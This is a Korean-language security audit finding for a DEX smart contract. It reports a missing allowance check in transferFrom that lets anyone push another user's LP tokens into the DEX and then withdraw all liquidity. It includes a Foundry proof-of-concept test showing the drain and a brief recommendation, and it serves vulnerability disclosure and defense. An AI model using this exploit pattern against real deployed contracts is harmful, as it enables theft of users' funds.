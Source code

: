 # 1. Unchecked Token allowance to DEX
## Description
- `Dex.sol:transferFrom(L: 147-148)`
`transferFrom`함수는 제 3자가 토큰을 다른사람에게 전송할 수 있도록 하는 함수입니다. 이 때 제 3자는 해당 토큰에 대한 approve가 선행되어있어야 합니다. 그러나 해당 함수에서는 DEX에 대해 LP token을 전송할때 allowance를 검사하지 않고 바로 토큰을 전송시켜주도록 구현되었습니다. 따라서 제 3자가 허용되지 않은 남의 LP token을 DEX 컨트랙트에 전송시킬 수 있습니다.
## Impact
### Critical
다른사람의 자산을 강제로 이동시킬 수 있습니다. 또한 `burn`함수를 살펴보면, DEX 컨트랙트에 현재 남아있는 LP토큰을 소각시켜 호출자에게 소각시킨 만큼의 유동성을 제공하도록 되어있습니다. 따라서 공격자는 모든 LP 토큰을 소각시켜 DEX의 모든 유동성을 탈취할 수 있습니다.
```solidity
    function test_exploitToTransferAndremoveLiquidity() external {
        uint lp1 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        console.log(dex.balanceOf(address(this))); // 1000000000000000000000
        vm.startPrank(address(1));
        dex.transferFrom(address(this), address(dex), lp1);
        console.log(dex.balanceOf(address(this))); // 0

        (uint x, uint y) = dex.removeLiquidity(0, 0, 0);
        console.log(tokenX.balanceOf(address(1))); // 1000000000000000000000
        console.log(tokenY.balanceOf(address(1))); // 1000000000000000000000
    }
```
## Recommendation
`transferFrom`함수에서 적절하게 allowance를 검증해야 합니다.
